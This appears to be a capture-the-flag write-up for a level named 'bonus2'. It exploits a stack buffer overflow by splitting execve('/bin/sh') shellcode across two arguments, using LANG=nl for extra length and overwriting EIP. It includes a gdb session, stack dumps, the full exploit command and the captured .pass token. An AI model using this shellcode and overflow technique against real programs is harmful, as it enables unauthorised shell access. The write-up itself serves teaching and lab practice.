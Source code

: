 We want to make a buffer overflow to redirect eip to some address in the stack where we write a shellcode. \
The first place we thought to put the shellcode in was in the `greetuser` buffer. To overflow and write on the eip, we need to write at least `72` bytes (space reserved by esp) and then write `8` bytes to overwrite the eip. \
As our buffer can be at most `72` bytes long, we need some more bytes. With the default language value, we can only go to `76` bytes long, so we need more bytes. \
Setting the variable `LANG` to `nl` gives us `13` bytes more. `72 + 13 = 85` so we have enough space to overwrite the eip. \
The shellcode is `55` bytes long, so it wont fit into our first or our second parameter. We split it after making some adjustment, give the address of the stack to jump in, and `voila`:
```shell
(gdb) b *greetuser+147
Breakpoint 1 at 0x8048517

(gdb) r `python -c 'print "\x41"*3 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff"'` `python -c 'print "\xff/bin/sh" + "\x90"*11 + "\xf0\xf5\xff\xbf"*2'`
Breakpoint 1, 0x08048517 in greetuser ()

(gdb) x/48wx $esp
0xbffff5d0:  0xbffff5e0  0xbffff630  0x00000001  0x00000000
0xbffff5e0:  0x64656f47  0x64696d65  0x21676164  0xb7e50020
0xbffff5f0:  0xbfffff10  0xb7e338f8  0x00000002  0xb7ec38ee
0xbffff600:  0xbffff638  0xbffff680  0x00000000  0xbffff6cc
0xbffff610:  0xbffff6e8  0xb7ff26b0  0xbfffff10  0xb7f5d780
0xbffff620:  0xbfffff13  0xb7fff918  0xbffff6e8  0x08048630
0xbffff630:  0xeb414141  0x76895e1f  0x88c03108  0x46890746
...

(gdb) x/wx $ebp
0xbffff628:  0xbffff6e8

(gdb) ni
0x0804851c in greetuser ()

(gdb) x/48wx $esp
0xbffff5d0:s0xbffff5e0  0xbffff630  0x00000001  0x00000000
0xbffff5e0:s0x64656f47  0x64696d65  0x21676164  0x41414120
                                                |_ we start writing here so we write some As to be aligned
0xbffff5f0:s0x895e1feb  0xc0310876  0x89074688  0x0bb00c46
            |_ our shellcode that ends
0xbffff600:s0x4e8df389  0x0c568d08 |0xdb3180cd  0xcd40d889
                                   |                     ____
0xbffff610:s0xffdce880  0x622fffff |0x732f6e69  0x909090|68__|
                                   |____________________| here
0xbffff620: 0x90909090  0x90909090  0xbffff5f0  0xbffff5f0
                                    |_ the ebp  |_ the eip
...

(gdb) quit

bash$ LANG=nl ./bonus2 `python -c 'print "\x41"*3 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff"'` `python -c 'print "\xff/bin/sh" + "\x90"*11 + "\xf0\xf5\xff\xbf"*2'`
Goedemiddag! AAA�^�1��F�F
                         �
                          ���V
                               ̀1ۉ�@̀�����/bin/sh������������������� 
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

